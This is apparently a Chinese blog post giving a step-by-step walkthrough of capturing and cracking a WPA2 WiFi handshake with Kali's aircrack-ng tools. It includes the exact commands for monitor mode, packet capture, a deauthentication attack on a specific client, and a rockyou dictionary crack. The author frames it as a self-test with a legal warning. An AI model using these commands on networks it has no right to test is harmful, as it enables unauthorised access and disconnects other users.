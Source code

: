 ```yaml
---
layout:	post
title:	雕虫小技
date	2018-06-06 13:00:12 +0800
categories: Kali
---
```


# 雕虫小技系列1

- 看到网上有关于使用**kali**破解WIFI的文章，去年CTF虽然曾使用过`aircrack-ng`对.cap包做过破解，但是还没有完整的进行过整个攻击过程，所以就想进行一次完整的实验
- 此文章中使用的是kali虚拟机和树莓派无线网卡
- **！随意破解他人WIFI犯法，请务必使用自己的WIFI进行实验！**

---

1. 使用的网卡型号是EP-N8508GS ，网店店主说除了树莓派以外的系统都需要装驱动，但是在我的WIn10机器和kali虚拟机上都可以直接使用

   ![]({{ site.url }}/imgs/trics/WIFI.jpg)

2. 输入`iwconfig`查看网卡名称

   ![]({{ site.url }}/Foto/trics/kali1.png)

3. 输入`airmon-ng start wlan0 `启动网卡Monitor模式

   ![]({{ site.url }}/Foto/trics/kali2.png)

4. 发现两个可能造成问题的进程，先把他们关掉

   ```
   ~# service network-manager stop
   ~# airmon-ng check kill
   ```

   ![]({{ site.url }}/Foto/trics/kali3.png)

5. 再次使用`iwconfig`确认已经进入monitor模式

   ![]({{ site.url }}/Foto/trics/kali4.png)

6. 输入`airodump-ng wlan0mon`进行抓包

   ![]({{ site.url }}/Foto/trics/kali5.png)

   

7. 选择对宿舍WIFI: BSSID=8C:A6:DF:D2:D8:40 CH=1 加密方式为：WPA2的宿舍WIFI进行数据抓包，输入`airodump-ng wlan0mon --bssid 8C:A6:DF:D2:D8:40 -c 1 -w wpa2`，-w 表示数据包存储位置，只抓取该WPA的数据包

   ![]({{ site.url }}/Foto/trics/kali6.png)

8. 之后需要等待用户连接或是重新连接WIFI，但是运气不好会等很久。在此使用**aireplay-ng**，强制断开用户的WiFi连接，输入`aireplay-ng -0 2 -a 8C:A6:DF:D2:D8:40 -c 0C:51:01:04:44:84 wlan0mon`，参数解释：`-0`发起DE authentication攻击，`-a`指定路由器BSSID，`-c`指定强制断开的设备。

   ![]({{ site.url }}/Foto/trics/kali7.png)

9. 成功获得四步握手包，执行`airmon-ng stop wlan0mon`结束无线网卡监听

    ![]({{ site.url }}/Foto/trics/kali8.png)

10. 查看抓到的握手包

   ![]({{ site.url }}/Foto/trics/kali9.png)

11. 使用kali默认的字典进行破解，字典目录为：/usr/share/wordlists/rockyou.txt.zip ，执行`gunzip rockyou.txt.zip`解压

12. 执行`aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa2-02.cap`破解，此处有wpa2-01和wpa2-02两个文件，只需要关注最后一个文件

    ![]({{ site.url }}/Foto/trics/kali10.png)

13. 成功破解，也是因为宿舍WIFI是弱密码，由此可见WIFI密码设置不应该太随意